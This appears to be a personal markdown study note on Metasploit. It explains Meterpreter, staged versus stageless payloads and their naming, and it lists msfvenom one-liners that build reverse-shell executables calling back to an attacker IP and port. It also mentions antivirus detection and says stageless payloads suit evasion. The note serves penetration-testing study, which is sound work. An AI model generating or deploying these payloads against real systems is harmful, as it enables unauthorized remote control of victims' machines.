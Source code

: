 # Metasploit

### Meterpreter
Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target

Can use `shell` command to drop in to a system shell


### MSFvenom
Crafting payloads with msfvenom

**Staged payload**  
 When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

**Stageless payload**
This payload will be sent in its entirety across a network connection without a stage. Good for low bandwith and for Evasion.

**Naming convention:**
First is staged. Second is stageless
`windows/meterpreter/reverse_tcp` and `windows/meterpreter_reverse_tcp`    

**Building Stageless Payload** 
Example:  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

`.exe` for windows. Would get caught in AV since signature is known

**Meterpreter Payload**
`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`

**Netcat Payload**
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.0.32 LPORT=4444 -f exe -o reverse.exe`